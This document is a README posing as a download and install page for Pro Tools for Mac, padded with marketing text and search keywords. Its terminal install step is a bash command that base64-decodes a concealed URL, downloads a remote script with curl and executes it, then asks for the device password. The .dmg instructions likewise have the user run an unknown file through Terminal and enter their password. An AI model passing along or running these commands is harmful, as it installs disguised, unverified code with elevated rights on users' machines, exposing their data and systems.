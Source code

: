 # Pro Tools Download Mac - Professional Audio Editing Software

![Pro Tools Screenshot 1](https://imag.malavida.com/mvimgbig/download-fs/pro-tools-11633-1.jpg)

---

## 🔽 Download Pro Tools for Mac

[![Download Now](https://img.shields.io/badge/Download_Pro_Tools-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/protools)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Pro Tools for Mac?

Pro Tools is the gold standard in professional audio production software, widely used in music studios, film scoring, and post-production environments. Designed for macOS, Pro Tools offers an unparalleled suite of tools for recording, editing, mixing, and mastering audio. Its precision and reliability make it the preferred choice for audio engineers, producers, and musicians.

One of the standout features of Pro Tools is its advanced mixing capabilities, including support for surround sound and Dolby Atmos. The software's Elastic Audio and Beat Detective tools allow for seamless time-stretching and quantization, ensuring perfect timing in recordings. Pro Tools also supports AAX plugins, giving users access to a vast ecosystem of high-quality audio effects and virtual instruments.

Collaboration is a breeze with Pro Tools Cloud Collaboration, enabling multiple users to work on the same project from different locations. The software integrates seamlessly with hardware controllers like Avid S6 and S3, providing tactile control over mixes. Whether you're recording a band, scoring a film, or producing a podcast, Pro Tools delivers the tools you need to achieve professional-grade audio results.

![Pro Tools Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Avid-Pro-Tools_6.jpg)

---

## Key Features & Benefits

- 🎧 Industry-leading audio recording and editing  
- 🎛 Advanced mixing with surround and Dolby Atmos support  
- ⏱ Elastic Audio and Beat Detective for perfect timing  
- ☁️ Cloud Collaboration for remote teamwork  
- 🎹 Support for AAX plugins and virtual instruments  
- 🎚 Integration with Avid hardware controllers  

Pro Tools is the ultimate audio production software for professionals and enthusiasts alike.

---

## 🔍 Keywords

Pro Tools for Mac, Pro Tools Mac Download, Pro Tools for Mac Download, Pro Tools Mac, Pro Tools Download Mac, Pro Tools Download for Mac, pro tools full version, Mac Download Pro Tools, Download Mac Pro Tools, Download Pro Tools Mac, Download Pro Tools for Mac
